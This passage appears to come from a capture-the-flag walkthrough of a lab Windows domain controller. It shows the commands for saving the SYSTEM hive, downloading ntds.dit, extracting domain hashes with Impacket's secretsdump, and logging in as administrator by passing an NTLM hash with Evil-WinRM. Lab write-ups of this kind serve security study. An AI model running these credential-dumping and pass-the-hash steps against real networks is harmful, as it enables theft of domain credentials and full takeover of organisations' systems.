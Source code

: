 From here we need to extract the SYSTEM hive which will be required for extracting the hashes with Impacket later.

```
reg save hklm\system c:\Temp\system
```

From here we can use the download command to download the `ntds.dit` and `system` hive file.

```
download ntds.dit
download system
```

Now, over on the attacking system we can use Impacket's `secretsdump.py` to extract the domain account hashes.

```bash
python2 'secretsdump.py' -ntds 'ntds.dit' -system 'system' local 
```

![](<../../../.gitbook/assets/image (2060) (1) (1) (1) (1).png>)

With the administrators NTLM hash we can log into the Domain Controller with `Evil-WinRM`.

```bash
evil-winrm -i '10.10.10.192' -u 'administrator' -H '184fb5e5178480be64824d4cd53b99ee'
```

![](<../../../.gitbook/assets/image (2042) (1) (1) (1) (1) (1) (1).png>)
